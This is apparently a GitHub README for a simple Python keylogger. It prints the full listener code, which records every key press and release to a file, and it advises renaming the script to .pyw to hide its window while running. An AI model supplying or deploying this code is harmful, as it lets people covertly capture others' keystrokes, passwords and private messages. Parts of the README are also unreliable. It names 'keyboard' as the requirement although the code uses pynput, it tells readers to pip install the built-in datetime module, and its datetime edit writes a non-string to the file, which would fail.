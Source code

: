 # Simple-Keylogger
A very simple keylogger written in python.

## Usage
You can simply run it like any other python file `python keylogger.py` or `python PATH TO FILE`
There is a requirement, though: `keyboard`
## Optional
Change the file extension from `.py` to `.pyw` to hide terminal window when running
Add datetime function
### Datetime
As you can see in my code, it has a `from datetime import datetime` function.
That is because we are going to make a `datetime` funciton.

**MAKE SURE YOU ALREADY HAVE DATETIME** 

#### Windows

`pip install datetime`

#### Linux

`pip install datetime`

#### Mac

`pip3 install datetime`

### Working with datetime

Our current code is
`from pynput.keyboard import Key, Listener
from datetime import datetime

txtfile = input('Type in your text file location: ')


def on_press(key):
    f = open(txtfile, "a")
    f.write('{0} pressed'.format(
        key))
    f.close()

def on_release(key):
    g = open(txtfile, "a")
    g.write('{0} release'.format(
        key))
    if key == Key.esc:

        return False


with Listener(
        on_press=on_press,
        on_release=on_release) as listener:
    listener.join()`
If we want datetime, we could always add a `f.write(datetime.now()` into line9, column 5 and `g.write(datetime.now()` into line 16, column 5

The result should be 
`from pynput.keyboard import Key, Listener
from datetime import datetime

txtfile = input('Type in your text file location: ')


def on_press(key):
    f = open(txtfile, "a")
    f.write(datetime.now())
    f.write('{0} pressed'.format(
        key))
    f.close()

def on_release(key):
    g = open(txtfile, "a")
    g.write(datetime.now())
    g.write('{0} release'.format(
        key))
    if key == Key.esc:

        return False


with Listener(
        on_press=on_press,
        on_release=on_release) as listener:
    listener.join()`
    
  
